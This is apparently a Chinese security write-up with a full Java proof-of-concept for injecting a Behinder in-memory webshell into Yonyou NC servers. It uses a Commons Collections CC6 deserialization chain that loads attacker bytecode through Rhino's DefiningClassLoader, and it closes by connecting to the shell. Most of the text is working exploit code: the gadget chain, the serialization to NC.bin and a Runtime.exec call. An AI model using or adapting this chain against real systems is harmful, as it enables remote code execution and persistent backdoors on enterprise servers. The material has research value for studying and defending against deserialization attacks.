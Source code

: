 在用友NC中默认ban了templateImpl和bcel等加载字节码的类，即使是反序列化执行了命令，没有办法加载恶意类仍然是没有办法注入内存马的

用Java-memshell-generator生成一个冰蝎的内存马

![image-20231018163901136](images/1.png)

这个生成的类，只要能调用static代码块即可注入

![image-20231018165149616](images/2.png)

在用友的js-14.jar包中，存在DefiningClassLoader类，可以通过defineclass加载类

![image-20231018164057854](images/3.png)

而对于用友NC，存在正常的CC链

![image-20231018164400384](images/4.png)

在InvokerTransformer中可以通过反射构造Runtime.getRuntime().exec()，那么也可以构造

```
DefiningClassLoader.class.getDeclaredConstructor().newInstance(new Object[0]).defineClass("恶意类全限定名",恶意类byte[]).getMethod("main").invoke(null);
```

调用恶意类中的方法，因为是defineclass加载的，不会去初始化类，需要我们去调用constructor，即

```java
final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass", new Class[]{String.class, byte[].class}, new Object[]{"aaa", bs}),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
//                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
        };
```

这样来触发恶意类的静态代码块

poc：

```java
package com.osword.defineclass;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.mozilla.javascript.DefiningClassLoader;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class YonyouTest {
    public static void main(String[] args) throws Exception {
        FileInputStream fis = new FileInputStream("/Users/DawnT0wn/IdeaProjects/JavaSec/src/main/java/com/osword/defineclass/aaa.class");
        ByteArrayOutputStream bos = new ByteArrayOutputStream(10000);
        byte[] b = new byte[1000];
        int n;
        while ((n = fis.read(b)) != -1) {
            bos.write(b, 0, n);
        }
        fis.close();
        byte[] data = bos.toByteArray();
        CC6(data);
    }

    public static void CC6(byte[] bs) throws Exception{
        Transformer[] faketransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"curl 111"})
        };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass", new Class[]{String.class, byte[].class}, new Object[]{"aaa", bs}),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
//                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
//                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
        };

        ChainedTransformer chain = new ChainedTransformer(faketransformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        TiedMapEntry tiedMap = new TiedMapEntry(outmap,123);
        HashSet hashset =  new HashSet();
        hashset.add(tiedMap);
        outmap.remove(123);

        setFieldValue(chain,"iTransformers",transformers);

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("NC.bin"));
        objectOutputStream.writeObject(hashset);
    }


    public static void setFieldValue(Object obj,String filedName,Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(filedName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```

连接behinder（记得加上请求头）

![image-20231018165238654](images/5.png)





参考链接：

https://lfysec.top/2021/09/10/%E7%94%A8%E5%8F%8BNC%E6%8C%96%E6%8E%98%E7%AC%94%E8%AE%B0/

https://zhzhdoai.github.io/2020/09/17/%E6%9F%90NC-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E6%9E%84%E9%80%A0/
